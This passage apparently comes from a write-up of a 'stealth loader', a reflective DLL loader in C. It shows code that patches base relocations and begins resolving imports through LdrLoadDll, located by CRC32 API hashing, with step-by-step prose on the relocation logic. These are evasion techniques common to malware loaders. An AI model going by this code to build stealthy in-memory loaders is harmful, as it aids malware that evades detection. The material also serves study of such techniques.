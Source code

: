                 address_to_patch += delta_image_base;
                memcpy((void *)((unsigned long long int)dll_base + relocation_rva), &address_to_patch, sizeof(unsigned long long int));
            }
        }
    ```
        1. **Get Relocation Data Directory**:
        - It starts by obtaining the relocation data directory from the DLL's PE header.
        - This directory provides information about the relocation table, which is used for adjusting addresses when the DLL is loaded at a new base address.

        2. **Calculate Relocation Table RVA**:
        - Once the relocation data directory is obtained, the code calculates the RVA (Relative Virtual Address) of the relocation table.
        - This is the address within the DLL where the relocation table is located.

        3. **Iterate Over Each Block in Relocation Table**:
        - The code iterates over each block in the relocation table.
        - Each block contains a set of relocation entries, which specify the type of relocation and the offset within the DLL where the address needs to be patched.

        4. **Calculate Patch Address**:
        - For each relocation entry, the code calculates the address within the DLL that needs to be patched.
        - This is done by adding the base address of the DLL to the RVA of the relocation block and the offset specified in the relocation entry.

        5. **Perform Address Patching**:
        - The code reads the original value at the calculated patch address.
        - It then adds the delta image base (the difference between the original base address and the new base address) to this value.
        - Finally, it writes the updated value back to the same location in memory, effectively relocating the address to the new base address.

        6. **Repeat for Each Relocation Entry**:
        - This process is repeated for each relocation entry in the relocation table, ensuring that all addresses requiring relocation are properly adjusted.

        By performing this relocation process, the code ensures that the DLL can run correctly at its new base address, accommodating changes in memory layout or loading conditions. This is crucial for ensuring the correct execution of the DLL within the context of the application or system where it is loaded.
    - stealth Loader Part 5:
        ```c
        PIMAGE_IMPORT_DESCRIPTOR import_descriptor;
        IMAGE_DATA_DIRECTORY images_directory = nt_headers->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_IMPORT];
        UNICODE_STRING import_library_name;

        import_descriptor = (PIMAGE_IMPORT_DESCRIPTOR)(images_directory.VirtualAddress + (unsigned long long int)dll_base);
        void *current_library = NULL;

        while(import_descriptor->Name != 0) {
            void *p_ldr_load_dll = get_proc_address_by_hash(p_ntdll, LdrLoadDll_CRC32b);
            char *module_name = (char *)dll_base + import_descriptor->Name;
            wchar_t w_module_name[MAX_PATH];
            unsigned long num_converted;
